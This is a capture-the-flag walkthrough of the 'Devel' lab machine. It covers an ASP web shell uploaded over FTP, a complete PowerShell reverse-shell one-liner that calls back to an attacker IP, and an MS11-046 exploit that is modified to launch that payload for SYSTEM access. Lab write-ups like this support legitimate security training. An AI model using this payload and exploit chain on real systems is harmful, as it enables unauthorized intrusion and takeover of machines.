



# Devel

Let's get to work on the machine Devel.


Like normal, we'll kick off ```nmap``` against the system to see what's out there.


Looks like we have FTP and HTTP responding.  Let's see what the web interface is serving up.


Looks like it's a default IIS7 webpage.  Let's load up ```dirbuster``` to see if we can find any directories or files.




It looks like it's finding a lot of garbage that probably isn't going to be useful to us.  Let's try hitting one of pages listed to see what comes back.


We get a server error page.  We'll have to keep that in mind in case it comes in useful later.

Let's take a look to see what's on the FTP share.


Looks like it's sharing out the IIS7 default page's directory.

Let's grab a web shell off GitHub, and upload it to FTP share.  We'll use https://github.com/tennc/webshell/blob/master/asp/webshell.asp for this.

Let's upload it to the FTP share.


Now, let's load the webshell in our browser.



Looks to be working, so let's setup a ```netcat``` listener so we can connect back to ourselves.


We'll use powershell to create the connection.  Specifically, we're using the following, then encoded into base64 UTF-16LE, so that we can pass it in the webshell:

>```powershell
>$client = New-Object System.Net.Sockets.TCPClient("192.168.0.53",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
>```


The page is hanging as expected, so let's check our listener.


Looking good, now let's kill the IIS worker process, so it restarts, causing the webshell to be useable again, giving us a way to kick off PowerShell again in case something hangs our shell.


Let's run ```systeminfo``` to get some more info on this machine.


Now let's download Windows PrivEsc Check (https://github.com/pentestmonkey/windows-privesc-check) and copy the executable to the FTP share.


Now in the webshell we'll run ```c:\inetpub\wwwroot\windows-privesc-check2.exe --audit -a -V -o c:\inetpub\wwwroot\results```



This will hang the page long enough we will get a 500 internal server error, this is fine.

We'll just watch the FTP share until we see the results files are generated.


We'll then open the ```results.html``` page.


If we look through the results, we'll see that the machine is vulnerable to MS11-046.

We'll copy the code from https://www.exploit-db.com/exploits/40564 and open ```vi``` with a file named ```MS11-046.c```.


Now we'll paste in the code, but we'll want to change the following line from ```"c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32"``` to ```C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\Powershell -encodedCommand``` pasting the base64 code from earlier after ```-encodedCommand```.


This allow us to have the exploit call back to us, as if we tried to run it before, it would spawn ```cmd.exe```, but not interactively.

We'll then save the file.

To compile this executable, we'll have to install ```gcc-mingw-w64-i686```.


Once it's installed, let's compile the code.


We'll drop a copy of the file into the FTP share.


Then we'll browse to ```wwwroot```, where the file lives.


From there, we'll copy it from ```C:\inetpub\wwwroot``` over to ```C:\temp```.


Now we'll kick off a listener again.


With the listener up, let's launch our exploit, and verify it escalated us to the ```system``` account in our reverse shell.


Escalation looks good, so let's grab the flags.


That's a wrap.

___

[Back](../)
